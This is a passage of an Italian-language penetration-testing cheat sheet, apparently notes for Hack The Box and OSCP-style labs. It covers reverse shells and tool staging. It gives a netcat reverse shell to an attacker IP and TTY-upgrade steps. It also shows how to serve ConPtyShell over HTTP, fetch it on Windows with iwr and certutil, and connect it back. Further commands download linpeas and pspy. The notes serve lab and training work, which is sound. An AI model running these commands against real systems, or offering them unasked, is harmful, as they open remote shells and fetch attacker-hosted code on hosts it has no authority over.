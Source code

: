 **Fully Interactive TTYs with nc**

```bash
nc $KALI_IP -e /bin/bash
```

**Fully Interactive TTYs with screen**

- Esempio: [HTB Precious](https://0xdf.gitlab.io/2023/05/20/htb-precious.html)

```bash
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
Terminal type? screen
```
## Windows

#### ConPtyShell (Fully Interactive Shell)

Su kali:

```bash
git clone https://github.com/antonioCoco/ConPtyShell.git

python -m http.server 9999

stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

Su windows:

```bash
powershell iwr -uri http://$KALI_IP:9999/windows/ConPtyShell.exe -Outfile ConPtyShell.exe

certutil -urlcache -split -f "http://$KALI_IP:9999/windows/ConPtyShell.exe" "C:\Users\security\Downloads\ConPtyShell.exe"

powershell C:\windows\temp\ConPtyShell.exe $KALI_IP 3001

powershell .\ConPtyShell.exe $KALI_IP 3001
```

#### Nishang

- https://github.com/samratashok/nishang
- [1 esempio macchina-htb](https://0xdf.gitlab.io/2019/03/02/htb-access.html#shell-via-telnet)
- [2 esempio macchina-htb](https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/bounty-writeup-w-o-metasploit#id-8ece)


# Linux Toolkit

Su kali:

```bash
wget https://github.com/peass-ng/PEASS-ng/releases/download/20240519-fab0d0d5/linpeas.sh

wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64

python3 -m http.server 9999
```
